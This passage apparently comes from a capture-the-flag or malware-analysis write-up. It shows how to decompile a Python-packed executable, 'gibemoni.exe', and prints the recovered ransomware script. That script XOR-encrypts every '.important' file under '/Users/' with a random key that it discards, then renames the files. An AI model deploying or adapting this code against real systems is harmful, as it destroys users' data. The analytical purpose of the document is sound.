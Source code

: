 ```
# build docker image from Dockerfile
docker build -t gib .
# run our docker image, with the currect directory mounted at /src
docker run --rm -it $(pwd):/src gib sh
cd /src
unpy2exe gibemoni.exe
# remember to change FROM in the Dockerfile to `FROM python:3.7-alpine3.7` and rebuild
uncompyle6 ransom.py.pyc > ransom.py
```

This should result in the following code 

`ransom.py`
```
# uncompyle6 version 3.2.4
# Python bytecode 3.4 (3310)
# Decompiled from: Python 3.7.1 (default, Nov 16 2018, 06:33:02) 
# [GCC 6.4.0]
# Embedded file name: ransom.py
# Compiled at: 2018-11-21 21:37:34
# Size of source mod 2**32: 212 bytes
import os

def find_important_files(startpath):
    for dirpath, dirs, files in os.walk(startpath):
        for f in files:
            abspath = os.path.abspath(os.path.join(dirpath, f))
            if abspath.split('.')[-1] == 'important':
                yield abspath
                continue


def encrypt_file(filename, key):
    i = 0
    with open(filename, 'r+b') as (f):
        plaintext = f.read(1)
        while plaintext:
            ciphertext = ord(plaintext) ^ key[i % 32]
            f.seek(-1, 1)
            f.write(bytes([ciphertext]))
            plaintext = f.read(1)
            i += 1


if __name__ == '__main__':
    print('Starting up...')
    print('HueHueHueHueHueHueHueHue')
    key = os.urandom(32)
    for f in find_important_files('/Users/'):
        encrypt_file(f, key)
        if os.path.exists(f + '.GibeMoni'):
            os.remove(f + '.GibeMoni')
        os.rename(f, f + '.GibeMoni')
        print('Encrypted: ' + f)
```


[wiki-xor-truth-table]: https://en.wikipedia.org/wiki/Exclusive_or#Truth_table